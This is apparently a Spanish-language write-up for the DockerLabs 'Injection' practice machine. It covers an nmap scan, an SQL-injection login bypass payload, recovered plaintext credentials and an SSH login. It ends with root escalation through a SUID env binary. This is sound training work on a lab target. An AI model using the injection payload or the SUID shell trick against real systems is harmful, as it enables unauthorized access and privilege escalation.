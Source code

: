 # Máquina Injection
- Dificultad: muy fácil

# Comprobamos si tenemos conexión:
<p>Primero comprobaremos si tenemos conexión con la maquina Injection: </p>

```
ping -c 3 172.17.0.2

```
<p>Al realizar este comando enviará solo 3 paquetes ping a dirección ip designada (172.17.0.2) y luego terminará.</p>

## Escaneo con nmap
<p>Ahora haremos un escaneo de puertos con la herramienta nmap</p>

```

sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 

```
<p>Explicación de lo que estamos ejecutando en este comando:</p>


`-p-`

* Escanea **todos los 65535 puertos TCP**, no solo los comunes.


`-sS`

* Realiza un **escaneo SYN sigiloso.**


`-sC`

* Usa los **scripts por defecto** de Nmap, esto puede ayudar a obtener más información de servicios detectados (como banners, vulnerabilidades simples, etc.).


`--open`

* Muestra **solo puertos abiertos**.


`-sV`

* Detecta la **versión de los servicios** que corren en los puertos abiertos.


`--min-rate=5000`

* Fuerza una **velocidad mínima de 5000 paquetes por segundo**.


`-n`

* Desactiva la **resolución DNS**.


`-vvv`

* Modo **muy detallado** de salida (`-v` = verbose, `-vv` = más verboso, `-vvv` = máximo).


`-Pn`

* Le dice a Nmap que **no haga ping al host** antes de escanear.


`-oN <ruta>`

* Guarda la salida del escaneo en **la ruta que hayamos seleccionado ** en mi caso:  /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection.


```

Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
<p>Podemos observar que el puerto 22 y el 80 están abiertos</p>

<p>colocamos la dirección ip 172.17.0.2 en el navegador, nos pidira que ingresemos el usuarios y la contraseña:</p>

imagen


<p>Probamos un ataque de inyeccionSQL</p>

```
 'or 1=1-- - 

```

imagen 

<p>Obtuvimos un usuario y contraseña:</p>

```
user : dylan
contraseña: KJSDFG789FGSDF78

```

Imagen 

<p>Probamos para conectarnos por SSH:</p>

```
ssh dylan@172.17.0.2
contraseña: KJSDFG789FGSDF78

```

# Escala de Privilegios
<p>Buscamos binarios con permisos SUID.</p>

```
find / -perm -4000 -user root 2>/dev/null

```
```
dylan@c890d134d17f:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
dylan@c890d134d17f:~$ 

```

<p>Aparece el binario /usr/bin/env asi, el binario env tiene permisos SUID, tiene una escalada de privilegios.</p>

```
./env /bin/sh -p

```

<p>Al ejecutarlo nos figura este error.</p>

```
-bash: ./env: No such file or directory

```

<p>Para solucionarlo, tenemos que ejecutarlo en el directorio /usr/bin .</p>

```
dylan@c890d134d17f:/usr/bin$ ./env /bin/sh -p
# whoami
root
